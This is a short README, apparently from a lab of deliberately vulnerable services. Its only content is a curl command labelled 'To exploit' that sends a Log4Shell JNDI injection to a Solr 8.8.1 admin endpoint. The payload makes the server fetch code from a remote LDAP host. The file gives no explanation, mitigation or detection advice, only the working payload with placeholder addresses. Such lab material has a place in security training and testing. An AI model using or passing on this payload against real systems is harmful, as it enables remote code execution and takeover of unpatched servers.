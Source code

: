 # Vulnerable Services

## solr 8.8.1

To exploit:

```
curl 'http://SOLR_SERVER_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://TARGET_IP:8080/PATH\}'
```
